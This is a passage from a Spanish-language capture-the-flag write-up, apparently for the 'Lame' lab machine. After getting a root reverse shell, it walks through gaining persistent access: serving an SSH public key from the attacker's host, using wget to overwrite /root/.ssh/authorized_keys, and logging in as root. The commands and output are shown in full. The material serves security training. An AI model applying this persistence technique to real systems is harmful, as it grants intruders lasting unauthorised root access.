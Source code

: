 Perfecto, hemos obtenido una reverse shell como root. Ya tenemos acceso a todo el filesystem, pero que pasa si se parchea la vulnerabilidad o simplemente se cierra el servicio? Pues nos quedaríamos sin acceso y mas aun porque tenemos una reverse shell. Pasemos a la siguiente etapa.

# Get SSH Access

Aplicando la vieja confiable, agregamos nuestro certificado público en las llaves autorizadas de ssh para el usuario root. Esto es posible porque tenemos una shell remota y porque la configuración de ssh permite que root pueda ingresar.

Comenzamos por iniciar un web server para compartir la llave:

```
xbytemx@laptop:~/.ssh$ python3 -m http.server 4001
Serving HTTP on 0.0.0.0 port 4001 (http://0.0.0.0:4001/) ...
10.10.10.3 - - [05/Nov/2019 08:24:47] "GET /id_rsa.pub HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
```

Mientras tanto, en el reverse shell:

```
wget http://10.10.14.2:4001/id_rsa.pub -O /root/.ssh/authorized_keys
--09:24:58--  http://10.10.14.2:4001/id_rsa.pub
           => `/root/.ssh/authorized_keys'
Connecting to 10.10.14.2:4001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 568 [application/octet-stream]

    0K                                                       100%  176.39 MB/s

09:24:58 (176.39 MB/s) - `/root/.ssh/authorized_keys' saved [568/568]
```

Perfecto, ya agregamos nuestra llave, ahora solo falta validar:

```
xbytemx@laptop:~/.ssh$ ssh -i id_rsa root@10.10.10.3
Last login: Tue Nov  5 09:06:12 2019 from :0.0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
